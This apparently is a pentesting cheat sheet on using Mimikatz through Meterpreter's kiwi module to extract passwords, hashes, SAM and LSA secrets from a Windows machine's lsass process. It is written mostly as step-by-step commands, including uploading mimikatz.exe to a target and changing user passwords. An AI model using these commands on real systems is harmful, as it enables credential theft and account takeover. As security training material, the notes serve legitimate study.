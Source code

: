 # Dumping Hashes with MimiKatz

This is a post-exploitation tool. It can be used for extraction of clear text passwords, hashes, and Kerberos Tickets from memory  
It extracts hashes from lsass.exe process  
MimiKatz can be used directly from Metasploit  -- kiwi
This requires elevated privileges to run correctly

1. get a Meterpreter session
2. Migrate to Lsass process
   1. ```pgrep lsass```
   2. ```migrate (process number)```
3.  ```load kiwi```

**creds_all** -- dumps all credentials  
**lsa_dump_sam** -- this will dump the SAM database  
**lsa_dump_secrets** -- this could provide with clear text credentials  
**password_change** -- this could change a user password

_**Document the SYSKEY as it can be useful later**_

### Uploading Mimikatz to the target

1. Navigate to the temp directory
2. ```upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe``` -- this uploads to the target
3. Open command shell session -- ```shell```
4. Execute mimikatz in the terminal -- ```.\mimikatz.exe```
5. Check Privileges -- ```privilege::debug```
6. Make sure it states **OK**
- Dump LSA -- ```lsadump::sam```
- Dump Secrets -- ```lsadump::secrets```
- Display logon passwords - ```sekurlsa::logonpasswords```
